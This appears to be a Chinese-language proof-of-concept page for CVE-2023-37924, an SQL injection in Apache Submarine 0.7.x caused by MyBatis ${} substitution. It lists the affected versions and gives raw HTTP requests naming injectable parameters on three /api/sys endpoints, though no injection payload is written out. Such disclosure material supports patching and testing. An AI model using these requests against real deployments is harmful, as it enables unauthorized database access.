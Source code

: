 # Apache-Submarine-SQL注入漏洞CVE-2023-37924


## Apache-Submarine-SQL注入漏洞CVE-2023-37924
Apache Submarine是一个端到端的机器学习平台，允许数据科学家创建完整的机器学习工作流程，涵盖数据探索、数据管道创建、模型训练、服务以及监控的每个阶段。Apache Submarine存在SQL注入漏洞，由于在SysDeptMapper.xml、SysUserMapper.xml等文件中的SQL语句使用了"$"参数符号，导致用户可控的输入直接拼接到SQL语句中。未授权的攻击者可以通过向/sys/searchSelect等接口发送恶意的keyword参数，从而执行恶意的SQL语句。

## 影响范围
```
0.7.0<=apache-submarine<0.8.0.dev0
```
## 漏洞点
从官方修复得代码来看，主要使用mybatis框架，并写法不规范，${}造成sql注入漏洞
![](/assets/20231123192338.png)


## poc
### api/sys/user/list   userNmae 和  email参数可控
```
GET /api/sys/user/list?column=createTime&order=desc&fieId=id,userName,realName&userNmae=&email= HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4
```

### /api/sys/dept/tree
```
GET /api/sys/dept/tree?=likeDeptCode=demoData&likeDeptName=demoData HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4
```

### api/sys/dict/list接口
```
GET /api/sys/dict/list?dictCode=demoData&dictName=demoData&column=&field=&order=pageNo=1&pageSize=10 HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4

```

## 漏洞复现
![image](https://github.com/wy876/POC/assets/139549762/904c3929-8590-4a7d-a695-48b0bb1b2832)
![image](https://github.com/wy876/POC/assets/139549762/cdc34528-456b-4c51-ad35-f23d5752152d)


